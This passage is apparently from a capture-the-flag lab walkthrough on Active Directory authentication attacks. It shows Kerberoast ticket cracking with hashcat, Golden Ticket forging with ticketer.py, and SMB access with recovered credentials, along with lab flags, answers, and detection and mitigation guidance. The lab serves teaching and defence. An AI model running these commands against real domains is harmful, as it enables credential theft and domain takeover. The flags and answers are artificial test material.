07141e717951b76c17190f8df799cc4d98257cb92e674f3a13a0765754a9d2ecd9c28ff1663470c8716dc54af292d4571312570087e4946f24f0c3fe3363194b5c58239bcfd3b758a8b58f4143899a468ddaeea8dbe18a4a7b207419cef3ea3ed9014f7fa9c9353562851a3fa7d1c63bd9b4932be644e7cdd0c5e8657fb012ef1c1e01bce5597bbc11b8f9bb0063f3674a08f9f7be2421d4873bdb9004cf32e48365bf7bcf2bb1adfdc4c57277c35b27c
````


Then save it:
````
cat > service_ticket.txt << 'EOF'
$krb5tgs$23$*svc_printer$THM.LOC$thm.loc/svc_printer*$773bdf9ab063bc24e621b4d1195f4530$02c4231376f0e3529df69b6a56191add4e03989df5e98b10b38ecac3b67f13a9ddbb0c7e066190da3e6203080e141a71765917a75326cf5587069634f69f42d4c2bcc586aa6207caa5c0d034bc3f6e11e9c0ae564e8cc5036ae7a20cb94c6ec0d19bfb44ad9fd66c032beb1a76777e325b69a0e78c7c1cc20b0f29c7b3aba2759e6643d4a74c985a700dde923978cc3a33d2b31a421ae8f3f28d38bb6a54b08c8ca01ac80f2f5c25cf127f5362fc1d63cde6bc0532467eb8ece602a2056188f951e04d071a811c4dd20eee6687f7af1f7c7fc279da74975ab92e8ef848a356fbd273efdf61b8a073fb1e297ecc5c1acf34f1eeca350a0af1ea4a33529b35d1a552be9c0544d4a8cfb3f7343f56cc3f1a3f462a3a5746d6de00cdd73719d640f9c6ec2144f5b56f2c64c09e913acc4276458ad166b045e111418c82f205b185be132d5fe1abbda43d0db9fa47730cda0546d17383780c2a77f150a52dbe692b8f117cb2e592e2f91afe0f5e65a2809f4b7fa698b07f11a919d73202cd64547d40aa1437d7181a0563fa4191b2d30a603636a302bb081f4ea4467228a658a0b316da736b5618ff03c285ffc29112639a53e4333e8c5a2a0e329464c1f3d00b6d3dd52684a019d162335d04ad2fc38a315332cfdf407cbe3995cb396bbba19df9830a86539c2a91955adfe3c0259441b27c014e76b00698bfbe55d3da0b8d5dc9211ff0376dc8eb9b83063542518c984253973de4a81f87072308e0465debb302cad7a4a494c6084305f8e90983a6c7a52719dd652d0483d128e76e13f97ef446a7e27c97c9d785521e702839ea9c8c0b177a9157a3de171864751f32a81406e12f303b1a89c450508c6ce30b7860797bfbdbe48c8a491e1a704a2982629cd138fbcbb99e0bc3afca1e46d190d1a52ad5b9aba12df7ddf9fc872f4b5bc2f307bcee936a8af7680eb0d3faf81f723db36cc3a96176c0644b59de16ba63953586e48e54b9f4a680855faa23a5461fcad7d2569b89f31998e0fc818b1434624b8e75630b587a1b9a326f25a7b6c3c63ad37ab75c8f3834df59a3699040ffe07141e717951b76c17190f8df799cc4d98257cb92e674f3a13a0765754a9d2ecd9c28ff1663470c8716dc54af292d4571312570087e4946f24f0c3fe3363194b5c58239bcfd3b758a8b58f4143899a468ddaeea8dbe18a4a7b207419cef3ea3ed9014f7fa9c9353562851a3fa7d1c63bd9b4932be644e7cdd0c5e8657fb012ef1c1e01bce5597bbc11b8f9bb0063f3674a08f9f7be2421d4873bdb9004cf32e48365bf7bcf2bb1adfdc4c57277c35b27c
EOF
````


Then crack the ticket hash:
````shell
hashcat -m 13100 service_ticket.txt /usr/share/wordlists/rockyou.txt
````


Now we see password is:
````
password1!
````

| Option               | Meaning                        |
| -------------------- | ------------------------------ |
| `-m 13100`           | Kerberos TGS-REP cracking mode |
| `service_ticket.txt` | Ticket hash                    |
| `rockyou.txt`        | Password wordlist              |


##### Use the Recovered Password

After the password is recovered, authenticate as ``svc_printer``:
````shell
smbclient.py "thm.loc/svc_printer:password1!"@192.168.11.51
````


Now we got target smb.


Then check flag:
````shell
shares
use SHARE5
cat flag5.txt
````


Now we see flag is:
````
THM{5b57e69d-7089-4282-ba04-c72de9bfdb38}
````

---


### Golden Ticket

A **Golden Ticket** attack abuses the **KRBTGT account**.

The attacker obtains the **KRBTGT NTLM hash** and uses it to create a **forged Kerberos TGT**. Because the Domain Controller trusts tickets signed with the KRBTGT secret, the forged ticket can be used to impersonate users in the domain.


##### Why Does It Work?

| Item              | Easy Explanation                                  |
| ----------------- | ------------------------------------------------- |
| **KRBTGT**        | Special AD account used to protect Kerberos TGTs. |
| **KRBTGT Hash**   | Secret needed to forge a valid-looking TGT.       |
| **TGT**           | Ticket used for Kerberos authentication.          |
| **Golden Ticket** | A forged TGT created using the KRBTGT secret.     |
| **Domain SID**    | Identifies the AD domain.                         |


> A Golden Ticket is extremely powerful because a compromised KRBTGT secret can allow forged tickets to impersonate users across the domain.

> The KRBTGT password normally needs to be reset twice to invalidate tickets based on both the current and previous KRBTGT secrets.


#### Practical Demonstration

In this we have obtained the KRBTGT hash for the domain:
| Field           | Value                                     |
| --------------- | ----------------------------------------- |
| **KRBTGT Hash** | `e9a9871b93d7b4d73c91665bd6df6e50`        |
| **Domain SID**  | `S-1-5-21-990021728-513958382-3715561918` |

Use ``ticketer.py`` to create the Golden Ticket:
````shell
ticketer.py -nthash e9a9871b93d7b4d73c91665bd6df6e50 -domain-sid S-1-5-21-990021728-513958382-3715561918 -domain thm.loc Administrator
````


##### Use the Forged Ticket

Set the Kerberos credential cache:
````shell
export KRB5CCNAME=Administrator.ccache
````
Then authenticate to SERVER1:
````shell
smbclient.py thm.loc/Administrator@SERVER1.thm.loc -k -no-pass -dc-ip 192.168.11.100
````


Now we got target smb.

| Option            | Meaning                       |
| ----------------- | ----------------------------- |
| `-k`              | Use Kerberos                  |
| `-no-pass`        | Don't provide a password      |
| `-dc-ip`          | Specify the Domain Controller |
| `SERVER1.thm.loc` | Target hostname               |


Then check flag:
````shell
shares
use SHARE6
cat flag6.txt
````


Now we see flag:
````
THM{eac75729-86ea-4bab-98de-1c5ce3552f67}
````


---


### Understanding the Impact

The four attacks show that AD authentication security is very important. If passwords, authentication protocols, or sensitive credentials are poorly protected, an attacker may eventually gain high-level or even complete domain access.

| Problem                 | Possible Impact                               |
| ----------------------- | --------------------------------------------- |
| Weak passwords          | Passwords can be cracked                      |
| NTLM weaknesses         | Pass-the-Hash and relay attacks               |
| Kerberos weaknesses     | Kerberoasting, Pass-the-Ticket, Golden Ticket |
| Compromised credentials | Unauthorized account access                   |
| Compromised `KRBTGT`    | Possible domain-wide Kerberos compromise      |

````mermaid
flowchart TD
    A[Weak Passwords] -->|Crack Credentials| B[Compromised Account]
    C[Authentication Weakness] -->|Exploit Protocol| D[Credential Abuse]
    E[Compromised KRBTGT] -->|Forge TGT| F[Golden Ticket]
    B --> G[Unauthorized Access]
    D --> G
    F --> G
    G --> H[Potential Domain Compromise]
````


---

### Questions & Answers:


#### 1. What is the value of Flag 3 that you can recover from SHARE3 by cracking the hash?

In this we was found flag in above:
````
THM{0eef8df3-c8ea-41ad-acd7-ae0479b2badf}
````


---

#### 2. What is the value of Flag 4 that you can recover from SHARE4 by performing a Pass-the-Hash attack?
````
THM{284c6735-b7c1-4221-b072-abf30a54eeda}
````


---

#### 3. What is the value of Flag 5 that you can recover from SHARE5 by authenticating using the credentials recovered through the Kerberoast attack?
````
THM{5b57e69d-7089-4282-ba04-c72de9bfdb38}
````


---

#### 4. What is the value of Flag 6 that you can recover from SHARE6 by creating a Golden Ticket?
````
THM{eac75729-86ea-4bab-98de-1c5ce3552f67}
````


------


## Task 6: Detections & Mitigations

This task explains **how defenders can detect authentication attacks in Windows/Active Directory logs** and how to reduce the risk.

### Key Windows Event IDs

| Event ID | Log      | What It Means                      | Useful For                         |
| -------: | -------- | ---------------------------------- | ---------------------------------- |
| **4624** | Security | Successful logon                   | Detect NTLM/PtH activity           |
| **4625** | Security | Failed logon                       | Password spraying / brute force    |
| **4768** | Security | Kerberos TGT requested             | Kerberos authentication monitoring |
| **4769** | Security | Kerberos service ticket requested  | **Kerberoasting detection**        |
| **4771** | Security | Kerberos pre-authentication failed | **AS-REP Roasting / brute force**  |


### Detecting NTLM-Based Attacks

For a successful logon, Windows generates **Event ID 4624**.

When investigating the event, check these important fields:
| Field                      | NTLM Indicator        | Meaning                             |
| -------------------------- | --------------------- | ----------------------------------- |
| **Authentication Package** | `NTLM`                | NTLM was used instead of Kerberos   |
| **Logon Type**             | `3`                   | Network logon                       |
| **Source Network Address** | Often blank on the DC | Makes identifying the source harder |

combination:  ``4624`` -> ``Authentication Package = NTLM`` -> ``Logon Type = 3`` -> ``Target = High-value system / DC`` -> ``Possible Pass-the-Hash``

> A network logon using NTLM against a high-value target such as a Domain Controller can be a strong indicator of Pass-the-Hash, especially when it is unusual for that environment.


### Detecting Kerberoasting

Kerberoasting involves requesting **Kerberos service tickets** for accounts that have SPNs.

The important event is: ``Event ID 4769``

It is generated whenever a service ticket is requested.

Things to investigate:
| Indicator                           | What to Look For                                        |
| ----------------------------------- | ------------------------------------------------------- |
| Many `4769` events                  | Large number of service-ticket requests                 |
| One account requesting many tickets | Potential automated activity                            |
| Many service accounts targeted      | Possible Kerberoasting                                  |
| RC4 ticket `0x17`                   | Worth investigating, especially if AES is normally used |


##### RC4 vs AES
| Encryption | Value  | Notes                                                     |
| ---------- | ------ | --------------------------------------------------------- |
| RC4-HMAC   | `0x17` | Older encryption type; can be useful for offline cracking |
| AES-256    | `0x12` | Modern Kerberos encryption                                |

If an account normally supports AES but suddenly receives an **RC4** ticket, this can be suspicious and should be investigated.


##### Detecting AS-REP Roasting

Another important event is: ``Event ID 4771 - Kerberos pre-authentication failed``

A large number of ``4771`` events can indicate:
- AS-REP Roasting attempts
- Password guessing
- Brute-force activity


### Mitigations
| Attack             | Detection                                         | Mitigation                                                            |
| ------------------ | ------------------------------------------------- | --------------------------------------------------------------------- |
| **Pass-the-Hash**  | `4624` + NTLM + Logon Type 3                      | Protect privileged accounts; reduce/disable NTLM where possible       |
| **NTLM Relay**     | NTLM authentication patterns and relay indicators | Enable **SMB signing** and **EPA** where supported                    |
| **Kerberoasting**  | `4769` spikes, suspicious service-ticket requests | Strong random service-account passwords or **gMSA**                   |
| **Golden Ticket**  | Suspicious Kerberos authentication/tickets        | Protect `KRBTGT`; reset its password twice after suspected compromise |
| **Password Spray** | Repeated `4625` failures across accounts          | Account lockout/rate-limiting policies and monitoring                 |


---


### Questions & Answers:

#### 1. Which Event ID is logged when a Kerberos TGT is requested?
````
4768
````


---

#### 2. In a Pass-the-Hash attack detected via Event ID 4624, what value appears in the Authentication Package field?
````
NTLM
````


-----


## Task 7: Conclusion

### Active Directory Authentication

| Topic                    | Key Point                                              | Remember                                    |
| ------------------------ | ------------------------------------------------------ | ------------------------------------------- |
| **Authentication**       | Proves who the user is                                 | **Who are you?**                            |
| **Authorization**        | Determines what the user can access                    | **What can you access?**                    |
| **NTLM**                 | Challenge-response authentication                      | Older / legacy protocol                     |
| **Kerberos**             | Ticket-based authentication                            | Default AD authentication                   |
| **TGT**                  | Ticket used to request service tickets                 | **TGT → Service Ticket**                    |
| **TGS / Service Ticket** | Ticket for a specific service                          | Used to access a service                    |
| **SPN**                  | Identifies a service in Kerberos                       | Important for Kerberoasting                 |
| **KRBTGT**               | Special account protecting Kerberos TGTs               | Protect it carefully                        |
| **NTLM Hash**            | Can be abused for Pass-the-Hash                        | Hash can become authentication material     |
| **Pass-the-Hash**        | Authenticate using an NTLM hash                        | No plaintext password required              |
| **Kerberoasting**        | Request service tickets and crack them offline         | Targets service accounts                    |
| **AS-REP Roasting**      | Abuses accounts without Kerberos pre-authentication    | Monitor failed pre-authentication           |
| **Golden Ticket**        | Forge a Kerberos TGT using the KRBTGT secret           | Can lead to major domain compromise         |
| **Password Spraying**    | Try a password against many accounts                   | Monitor repeated failed logons              |
| **Event 4624**           | Successful logon                                       | Check authentication package and logon type |
| **Event 4625**           | Failed logon                                           | Useful for password spraying detection      |
| **Event 4768**           | TGT requested                                          | Kerberos authentication                     |
| **Event 4769**           | Service ticket requested                               | Important for Kerberoasting detection       |
| **Event 4771**           | Kerberos pre-authentication failed                     | AS-REP Roasting / brute-force indicator     |
| **SMB Signing**          | Helps protect against NTLM relay                       | Enable where appropriate                    |
| **EPA**                  | Strengthens authentication binding                     | Helps against relay attacks                 |
| **gMSA**                 | Automatically manages strong service-account passwords | Helps prevent Kerberoasting                 |
| **Protected Users**      | Provides additional protection for privileged accounts | Helps reduce credential abuse               |


### Attack → Detection → Defense
| Attack              | Main Detection                       | Main Mitigation                                        |
| ------------------- | ------------------------------------ | ------------------------------------------------------ |
| **Pass-the-Hash**   | `4624` + NTLM + Logon Type `3`       | Protect privileged accounts; reduce NTLM               |
| **NTLM Relay**      | Suspicious NTLM authentication       | SMB Signing + EPA                                      |
| **Kerberoasting**   | Unusual `4769` activity              | Strong service passwords / gMSA                        |
| **AS-REP Roasting** | Suspicious `4771` activity           | Require Kerberos pre-authentication                    |
| **Golden Ticket**   | Suspicious Kerberos activity         | Protect `KRBTGT`; reset appropriately after compromise |
| **Password Spray**  | Many `4625` failures across accounts | Account protection + monitoring                        |


---


### Question & Answer:


-----


### Now we completed the Lab:


------
